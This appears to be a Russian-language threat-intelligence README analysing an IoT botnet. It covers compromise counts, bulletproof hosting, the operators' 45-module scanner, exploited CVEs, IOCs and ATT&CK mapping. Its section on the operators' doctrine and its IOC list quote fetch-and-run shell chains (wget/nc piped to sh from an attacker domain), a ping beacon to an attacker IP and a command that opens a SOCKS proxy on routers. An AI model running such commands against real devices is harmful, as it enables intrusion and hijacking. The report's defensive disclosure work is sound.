


# Анатомия IoT-ботнета: разбор инфраструктуры

[](iocs/)
[](yara/)
[](#лаборатории-и-poc)

Отчёт о вскрытии рабочей машины и файлового сервера операторов IoT-ботнета:
что нашли, сколько устройств скомпрометировано, какие эксплойты используются,
как устроена доставка и где это всё хостится.

> Материалы получены из дампа, выложенного самими операторами (directory listing
> на их файловом сервере). Все адреса жертв, пароли и приватные ключи **не
> публикуются**. Здесь только архитектура, статистика и индикаторы.

---

## 1. TL;DR

| | |
|---|---|
| Уникальных скомпрометированных устройств | **15 963** |
| Попыток входа в логах брута | **199 500 000+** |
| Целей, прошедших валидацию движка | **2 090 317** |
| Внутренних устройств, найденных из взломанных сетей | **10 410** (через 899 «родителей») |
| Доля камер и DVR | **77.5%** |
| Доля роутеров и CPE | **22.2%** |
| Серверные CVE | **0.1%** |
| Уникальных CVE в модулях движка | **55** |
| Крупнейший кластер у одного провайдера | **4 540 устройств (28.4%)** |

Главное: это **не «умный» ботнет**, а промышленный конвейер «скан → брутфорс
дефолтных паролей → доставка ELF → бикон». Умных эксплойтов меньше 1% парка.

---

## 2. Инфраструктура



Дополнительно: `45.90.13.11:/srv/nfs` (NFS для payload'ов), `fd6.eu` (короткий
домен-алиас для «char-limited» сливов), `176.98.182.21` (второй приёмник биконов).

Выведены из эксплуатации: `151.243.11.210`, `46.246.97.179`.

### Хостинг (whois)

| адрес | провайдер | страна |
|---|---|---|
| 45.90.13.169 | RoyaleHosting BV | NL |
| 151.243.11.240–242 | AS209630 «Company 657aeb44…» | DE |
| 176.98.182.21 | AKKUMYS KADYROVA | NL |
| 45.205.1.10 | VPSVAULT.HOST LTD (AS215925) | US (декларируется) |
| 46.246.97.179 | BlueVPS | SE |
| 66.70.221.212 / 62.210.173.100 | OVH / Scaleway | CA / FR |
| 16.5.0.227 | блок HPE, по RTT 235 мс — США | US |

«Легенда» провайдеров: офшорные юрлица (Сейшелы), фиктивные организации
(`Company 657aeb44Ri0HX6X8`), адреса в третьих странах. Классический bulletproof.

---

## 3. Их легенда и доктрина

Из внутреннего плейбука `DOORWAY-ENGINE.md`:

- **`doorway`** — «scanner+delivery engine» на Rust; 45 модулей по семействам
  (router / server / camera / onu / boa).
- **Валидация только по бикону**: сборка `doorway-debug` с фичей `pingpayload`
  заменяет payload на `ping -c 1 45.205.1.9`. «HTTP-статусы врут в 7 раз,
  скачивания доказывают доставку, биконы — выполнение».
- **Fire-ALL**: каждый модуль выстреливает все цепочки доставки по очереди
  (`nc … | sh`, `wget … -O- | sh`, `wget http://fd6.eu/…`, curl, form-encoded).
- **Ротация source-IP** на каждый логин (пул из 6 адресов) — против локов.
- **Короткие токены** (`xzgu1`, `ib03b`) — для устройств с лимитом на длину команды.

Модули (45): `asus, aitemi, appwebs, comtrend, darklantern, dlink_upnp, emerge,
engenius, faith, ilevia, linksys, outlet, realtek_miniigd, realtek_rsdk, ruijie,
vimar, webproc, weed, zyxelcpe, zywall` — роутеры; `hikvision, tvt, dvrip, avtech,
lilin, tbk, pdvr, digiever, jaws, ipcam, multidvr, vitek` — камеры;
`openfire, activemq, confluence, jenkins, tomcat, pfsense, manageengine, mirth,
roller, litellm, ray, flippercode, cyberpanel` — серверы; `fiberhome, zte, zhone,
cdata, dasan, thlogindata, thttpd` — ONU/GPON; `boaping, boa27ing6, boadiag,
boatracert, goahead, totolink…` — Boa-устройства.

---

## 4. Как это выкачивалось (и как всё падало)

Разбор честный: сервер живой ровно настолько, насколько хотел.

| проблема | что происходило | решение |
|---|---|---|
| 32 потока | сервер ушёл в `SYN_SENT` по всем соединениям, backlog умер | снизили до 2 потоков, таймаут 15–20 с |
| HEAD не поддерживается | каждый уже скачанный файл висел 20 с на HEAD | после 2 осечек HEAD отключается, проверка по заголовкам GET без вычитывания тела |
| FIFO на сервере | файлы вида `conf-probe.out` висят вечно | короткий таймаут + список `_failed.txt` |
| обрывы | `.part` выбрасывался, файл качался заново | атомарная запись через `.part` + `--name-only` для повторных прогонов |
| мусор сборки | `target/release/.fingerprint/*` — 3 066 каталогов | `--no-junk` (сохраняя `target/release/<binary>`) |
| дубли | 2 700 файлов архива уже были | сравнение по SHA-256, оставили 148 уникальных |
| сервер «умирал» | HTTP висел 10–15 с, ICMP 100% потерь | ждали, потом возобновляли `--name-only` |

Итог: **17 419 файлов, 37 ГБ**, корень сервера выкачан на **100% (5 497 из 5 497)**,
пустые каталоги подтверждены как пустые на сервере, недокачанных файлов нет
(3 «ошибки» — `404` на несуществующие пути).

Мой собственный косяк, для полноты: первым тестом я попал в уже запущенный
`http.server` на своём же порту и случайно выкачал 4.4 ГБ домашней папки — сразу
удалил, к цели отношения не имеет.

---

## 5. Масштаб: сколько скомпрометировано

| источник | строк | «хитов» | уникальных хостов |
|---|---:|---:|---:|
| `gt-webfig-out.jsonl` (брут WebFig) | 89 053 919 | 5 956 | 1 854 |
| `gt-winbox-out.jsonl` (брут Winbox) | 110 473 202 | 26 915 | 8 757 |
| `rt-results.jsonl` (подтверждённые входы) | 3 524 | 1 034 | 528 |
| `enrich-merged.jsonl` (сессии с выводом команд) | 28 444 | 14 854 ok | 11 033 |

**Объединение: 15 963 уникальных IP.**

Порты (по хитам):

```
8292  7075   ← перенесённый Winbox обогнал дефолтный
8291  6682
8000  1910
80    1500
8293  1311
8294   514
8295   447
```

Версии RouterOS (из вывода `/system resource print`, топ):

| версия | устройств |
|---|---:|
| 6.48.6 | 1 543 |
| 6.49.19 | 886 |
| 6.47.10 | 646 |
| 6.49.7 | 535 |
| 6.49.17 | 405 |
| 6.45.9 | 349 |

То есть парк — это в основном RouterOS 6.4x–6.49, то есть устройства 2021–2023
годов, которые никто не обновлял.

---

## 6. Что за устройства (в процентах)

По `validated.jsonl` (7 367 347 записей, 2 090 317 уникальных целей):

По объединённому `validated.jsonl` (11 348 435 записей):



Топ модулей:

| модуль | целей | доля |
|---|---:|---:|
| hikvision | 1 146 858 | 54.9% |
| tvt | 432 311 | 20.7% |
| asus | 225 703 | 10.8% |
| zywall | 168 492 | 8.1% |
| emerge | 27 125 | 1.3% |
| dvrip | 25 676 | 1.2% |
| realtek_rsdk | 18 093 | 0.9% |
| linksys | 15 200 | 0.7% |

Вывод: ботнет — это **сеть камер Hikvision/TVT**, а роутеры (ASUS, Zyxel)
используются как точки входа и как прокси.

---

## 6a. Кластеры файлов (что где лежит)

Дамп — это не «куча файлов», а аккуратные кластеры по продуктам. Каждый кластер
= набор списков целей + скрипты прогона + CVE, который они отрабатывали.

| кластер | файлов | скриптов | CVE в скриптах |
|---|---:|---:|---|
| `map-*` внутренние сети (LAN-скан из роутеров) | 916 | 9 | — |
| `hik-*` Hikvision | 215 | 144 | CVE-2017-7921, CVE-2021-36260 |
| `rt-*` RouterOS/Winbox | 148 | 2 | — |
| `amq-*` ActiveMQ | 120 | 57 | CVE-2023-46604 |
| `conf-*` Confluence | 114 | 41 | CVE-2022-26134, CVE-2023-22527 |
| `wb-*` Winbox-перебор | 114 | 66 | — |
| `upnp-*` UPnP | 109 | 61 | CVE-2014-8361 |
| `tomcat-*` Tomcat | 99 | 62 | CVE-2016-8735, CVE-2017-12615, CVE-2019-0232 |
| `run-*` раннеры/запуски | 93 | 52 | — |
| `asus-*` ASUS | 86 | 48 | CVE-2014-9583 |
| `ck-*` проверки эксплуатации | 85 | 1 | — |
| `tc-*` версии Tomcat | 62 | 8 | — |
| `jk-*` Jenkins | 58 | 34 | CVE-2018-1000861, CVE-2024-23897 |
| `gt-*` gt-логи (брут) | 56 | 15 | — |
| `zx-*` ZTE | 53 | 27 | CVE-2024-40891 |
| `of-*` Openfire | 53 | 11 | — |
| `cp-*` CyberPanel | 50 | 33 | — |
| `ubnt-*` Ubiquiti | 46 | 19 | — |
| `neth-*` Netis/Netcore | 42 | 29 | — |
| `mt-*` MikroTik | 36 | 14 | — |
| `wf-*` WebFig | 35 | 16 | — |
| `vimar-*` Vimar | 35 | 29 | — |
| `m8u-*` Boa/Hikvision отладка | 34 | 3 | CVE-2024-40891 |
| `tbk-*`  | 32 | 7 | — |
| `vm-*` VM-тесты | 30 | 30 | — |
| `fh-*` FiberHome | 30 | 3 | — |
| `worker-*`  | 29 | 28 | CVE-2021-44077, CVE-2022-47966 |
| `zywall-*` ZyWALL | 28 | 21 | — |
| `dvrip-*` DVRIP (Dahua) | 28 | 16 | — |
| `wg-*` WatchGuard | 26 | 23 | CVE-2022-26318 |
| `me-*`  | 26 | 6 | CVE-2021-44077, CVE-2022-47966 |
| `enable-*`  | 25 | 4 | — |
| `ofx-*`  | 25 | 25 | — |
| `zbt-*`  | 25 | 24 | — |
| `241-*`  | 24 | 24 | CVE-2018-9995 |
| `jenkins-*`  | 24 | 9 | CVE-2018-1000861, CVE-2024-23897 |
| `boa-*` Boa | 24 | 13 | — |
| `recv-*`  | 24 | 23 | — |
| `fq-*`  | 22 | 5 | — |
| `tia-*`  | 22 | 19 | — |

Выводы по кластерам:

- **`hik-*` (215 файлов, 144 скрипта)** — самый отработанный вендор: тесты
  CVE-2021-36260 (unauth RCE) и CVE-2017-7921 (обход авторизации), свои биконы,
  перебор символов в паролях (`hikval/char_cand` — 507 файлов).
- **`amq-*` (120 файлов, 57 скриптов)** — ActiveMQ CVE-2023-46604: генератор XML
  под 4 архитектуры, тесты на лабе, спреи.
- **`conf-*` (114, 41 скрипт)** — Confluence CVE-2022-26134 (OGNL) и CVE-2023-22527.
- **`upnp-*` (109, 61)** — CVE-2014-8361 и родня: массовые UDP-пробы с зашитой
  командой `ping -c 1 <beacon>`.
- **`tomcat-*` (99, 62)** — CVE-2017-12615 (PUT JSP), CVE-2019-0232, CVE-2016-8735;
  рядом `tc-*` — списки по версиям Tomcat.
- **`jk-*` (58, 34)** — Jenkins CVE-2018-1000861 и CVE-2024-23897 (чтение файлов).
- **`px-*`, `cp-*`, `mt-*`, `zx-*`, `fh-*`, `ubnt-*`, `wg-*`, `neth-*`** — точечные
  семейства (CyberPanel, MikroTik, ZTE, FiberHome, Ubiquiti, WatchGuard, Netis).
- **`map-*` (916 файлов)** — не эксплойты, а разведка внутренних сетей.

## 7. Кто их хостит (и где «скрытые подсети»)

Топ ASN среди скомпрометированных устройств:

| ASN | устройств | доля | организация |
|---|---:|---:|---|
| **328638** | **4 540** | **28.4%** | Letaba Networks (Pty) Ltd, ЮАР |
| 268132 | 739 | 4.6% | W M Figueiredo (Бразилия) |
| 7713 | 258 | 1.6% | PT Telekomunikasi Indonesia |
| 267961 | 257 | 1.6% | Fraga Software e Telecom (Бразилия) |
| 45899 | 223 | 1.4% | VNPT Corp (Вьетнам) |
| 45433 | 205 | 1.3% | Kappa Internet Services (Индия) |
| 266150 | 198 | 1.2% | Borille Telecom (Бразилия) |
| 18403 | 142 | 0.9% | FPT Telecom (Вьетнам) |

Один провайдер даёт почти треть парка — это готовая цель для одной abuse-жалобы.

### Распределение по сетям (по подтверждённым 15 963 IP)

| /8 | IP | доля |
|---|---:|---:|
| 102.0.0.0/8 | 2 547 | 16.0% |
| 45.0.0.0/8 | 1 747 | 10.9% |
| 103.0.0.0/8 | 1 476 | 9.2% |
| 154.0.0.0/8 | 1 171 | 7.3% |
| 160.0.0.0/8 | 1 153 | 7.2% |
| 196.0.0.0/8 | 401 | 2.5% |
| 177.0.0.0/8 | 355 | 2.2% |
| 38.0.0.0/8 | 329 | 2.1% |

Плотные /16:

| /16 | IP |
|---|---:|
| 102.141.0.0/16 | 1 984 |
| 154.65.0.0/16 | 1 123 |
| 160.226.0.0/16 | 881 |
| 45.169.0.0/16 | 742 |
| 196.6.0.0/16 | 362 |
| 45.165.0.0/16 | 258 |

Это «скрытые подсети» кампании: 102.141.x — ЮАР (тот самый Letaba), 154.65.x и
160.226.x — Африка, 45.169.x/45.165.x — Европа. По ним видно, что удар был
сфокусирован на конкретные ISP-диапазоны, а не распределён равномерно.

### Таймлайн (по validated.jsonl)

| дата | записей |
|---|---:|
| 2026-10-06 | 356 829 |
| 2026-10-10 | **5 228 933** |
| 2026-10-12 | **3 892 877** |
| 2026-10-14 | 1 126 |
| 2026-10-15 | 673 |

То есть работали волнами: пик 10–12 октября, потом резкое затухание (очередной
бан/выгорание парка).

---

## 8. Второй эшелон: внутренние сети

Из `map-scan-*.jsonl` (894 файла):

```
записей: 25 994
уникальных «родителей» (взломанных внешних устройств): 899
уникальных внутренних IP: 10 410
порты внутри LAN: 80→9451, 443→3832, 22→2973, 23→2814,
                  554→2262 (RTSP), 8291→1224, 37777→1123 (Dahua)
```

Схема: зашли на роутер → включили SOCKS (`/ip socks set enabled=yes port=31281`) →
изнутри просканировали `192.168.x.x` → нашли камеры и второй роутер → повторили.

---

## 9. Эксплойты: что у них есть

55 уникальных CVE в модулях. Ключевые:

| модуль | CVE | продукт | публичный PoC |
|---|---|---|---|
| openfire | CVE-2023-32315 | Openfire | да (15 репо) |
| activemq | CVE-2023-46604 | ActiveMQ | да (46 репо) |
| confluence | CVE-2022-26134 | Confluence | да |
| jenkins | CVE-2018-1000861 | Jenkins | да |
| tomcat | CVE-2017-12615 | Tomcat | да |
| pfsense | CVE-2022-31814, -40624 | pfSense | частично |
| manageengine | CVE-2021-44077 | ServiceDesk Plus | да |
| mirth | CVE-2023-37679, -43208 | Mirth Connect | да |
| ray | CVE-2023-48022 | Ray | да |
| roller | CVE-2026-82384 | Apache Roller | нет лабы |
| litellm | CVE-2026-42271, -49468 | LiteLLM | нет лабы |
| flippercode | CVE-2026-6433 | WP-плагин | нет лабы |
| hikvision | CVE-2021-36260 | Hikvision | да |
| asus | CVE-2014-9583, -2023-39780, -41346/48 | ASUS | частично |
| realtek_miniigd | CVE-2014-8361 | Realtek SDK | **нет лабы** |
| totolink | CVE-2024-1781, -2025-28137 | TOTOLINK | **нет лабы** |
| fiberhome | серия CVE-2021-271xx | FiberHome ONU | почти нет |
| dasan | CVE-2018-17867, -2023-42495, -2025-29524/25 | Dasan GPON | нет |
| thttpd | CVE-2023-41011 | thttpd | нет |
| ruijie | CVE-2023-32311 | Ruijie | нет |

Полный список — в `cves.md` (генерируется из `src/modules/**`).

### Приватное vs публичное

- Публично существует **только сам php2shell** (`9bie/php2shell-bypass-aslr-exp`,
  CVE-2026-109618, 1525★). Всё остальное — их приватный код.
- Уникально их: `ka.py` (connection pinning), движок `doorway` с 45 модулями,
  `payload-staged.rs` (23 массива payload'ов), `rt-bin` (RouterOS-тулкит),
  полевые обвязки (`lanmap`, `ssrf-mock`, `openfire-upload-probe`), краулер NVD.

---

## 10. IOC

**Сеть:** 8291–8299 (Winbox), 8728/8729 (API), 31281 (их SOCKS), 80/8080 (WebFig),
2121 (FTP их сервера), 69 (TFTP), 5269/9090 (XMPP), 61616 (ActiveMQ).

**Комментарии правил на роутерах** (оставляют за собой):
`dw`, `dw-src`, `dw-socks`, `dw-socks-deny`, `doorway-temp`, `doorway-temp-nat`.

**Пути на хостах:** `/var/tmp/.dlr`, `/var/tmp/.n`, `/var/tmp/.u`, `/var/tmp/cu/`,
`/dev/.hidden`, `/dev/.x`, `/dev/shm/.x`, `/tmp/.dpnxntsf`, `/tmp/protokol-client.pid`.

**Строки:** `protokol-v1-nk`, `protokol-instances`, `protokol.single`, `zicron`,
`zollard`, `rsocks`, `KILLATTK`, `LOLNOGTFO`, `TS3INIT1`, `not a Winbox endpoint
(new or old)`, `mac-telnet failed: child rejected the credential`.

**Beacon:** ICMP echo на `45.205.1.9`; в тестах — `ping -c 1 45.205.1.9`.

---

## 11. MITRE ATT&CK

| тактика | техника |
|---|---|
| Reconnaissance (T1595) | масс-скан портов (`flowscan-musl`) |
| Initial Access (T1190) | эксплуатация CVE в роутерах/камерах |
| Initial Access (T1078) | дефолтные и пустые пароли (admin:) |
| Execution (T1059) | shell-лоадеры (`wget | sh`) |
| Persistence (T1098) | SSH-ключи в `authorized_keys` |
| Persistence (T1505) | включение `www`, правила firewall (`doorway-temp`) |
| Defense Evasion (T1562) | правка iptables, отключение логов |
| Credential Access (T1110) | брутфорс Winbox/WebFig/telnet |
| Discovery (T1046, T1016) | `lanmap`, `/ip arp`, `/ip route`, DHCP-лизы |
| Collection (T1005) | `/backup save`, `/export`, `/ip socks users print` |
| Command and Control (T1090, T1571) | SOCKS на устройстве, нестандартные порты |
| Exfiltration (T1048) | ICMP-биконы, HTTP-выгрузки |

---

## 12. Что публикуем, а что нет

**Публикуем:** этот отчёт, IOC, YARA-правила, лабы и PoC по CVE, у которых
публичных лаб нет (см. `repos.md`).

**Не публикуем:** исходники движка, бинарники `doorway/rt/deep`, лоадеры,
payload'ы, списки целей, пароли, приватные ключи, дампы с адресами.

Причина: рабочий ботнет в открытом виде — это распространение ВПО
(ст. 273 УК РФ), плюс утечка данных жертв. Разбор без кода даёт больше пользы
и не создаёт проблем.

---

## 13. Что дальше

1. **Abuse-пакет** — списки по ASN + шаблон жалобы (Letaba — 28% парка).
2. **YARA-пак** — по `protokol-client` и дропперам.
3. **Лабы** — по списку в `repos.md` (приоритет: CVE-2020-8958, CVE-2023-42495,
   CVE-2023-41011, CVE-2023-32311).
4. **Уведомления** — RU-CERT/CISA, провайдеры (RoyaleHosting, VPSVAULT, AS209630).


---

## Лаборатории и PoC

По CVE из этой кампании собраны отдельные лабы (mock-сервис + PoC, только
localhost, безобидный payload):

| репозиторий | устройство | тип |
|---|---|---|
| [CVE-2014-8361](https://github.com/krevetkqqq/CVE-2014-8361) | Realtek SDK miniigd | pre-auth RCE 9.8 |
| [CVE-2020-8958](https://github.com/krevetkqqq/CVE-2020-8958) | Guangzhou 1GE ONU | pre-auth RCE 9.8 |
| [CVE-2023-42495](https://github.com/krevetkqqq/CVE-2023-42495) | Dasan W-Web | pre-auth RCE 9.8 |
| [CVE-2023-41011](https://github.com/krevetkqqq/CVE-2023-41011) | China Mobile HG6543C4 | pre-auth RCE |
| [CVE-2024-9441](https://github.com/krevetkqqq/CVE-2024-9441) | Linear eMerge e3 | pre-auth RCE 9.8 |
| [CVE-2026-82384](https://github.com/krevetkqqq/CVE-2026-82384) | Apache Roller | десериализация 9.8 |
| [CVE-2026-49468](https://github.com/krevetkqqq/CVE-2026-49468) | LiteLLM | 9.5 |
| [CVE-2022-40624](https://github.com/krevetkqqq/CVE-2022-40624) | pfSense pfBlockerNG | RCE |
| [CVE-2023-48022](https://github.com/krevetkqqq/CVE-2023-48022) | Anyscale Ray | RCE через job API |
| [CVE-2024-40891](https://github.com/krevetkqqq/CVE-2024-40891) | Zyxel VMG4325-B10A | post-auth RCE 8.8 |
| [CVE-2023-41346](https://github.com/krevetkqqq/CVE-2023-41346) | ASUS RT-AX55 | post-auth RCE 8.8 |
| [CVE-2023-41348](https://github.com/krevetkqqq/CVE-2023-41348) | ASUS RT-AX55 | post-auth RCE 8.8 |
| [CVE-2023-39780](https://github.com/krevetkqqq/CVE-2023-39780) | ASUS RT-AX55 | post-auth RCE 8.8 |
| [CVE-2025-28137](https://github.com/krevetkqqq/CVE-2025-28137) | TOTOLINK A810R | pre-auth RCE 9.8 |
| [CVE-2021-27177](https://github.com/krevetkqqq/CVE-2021-27177) | FiberHome HG6245D | обход авторизации |
| [CVE-2025-0890](https://github.com/krevetkqqq/CVE-2025-0890) | Zyxel telnet | дефолтные креды |
| [CVE-2023-32311](https://github.com/krevetkqqq/CVE-2023-32311) | CloudExplorer Lite | обход прав 7.1 |
| [cve-2023-32315-openfire-lab](https://github.com/krevetkqqq/cve-2023-32315-openfire-lab) | Openfire | pre-auth RCE 9.8 |
| [cve-2023-46604-activemq-lab](https://github.com/krevetkqqq/cve-2023-46604-activemq-lab) | ActiveMQ | pre-auth RCE 9.8 |
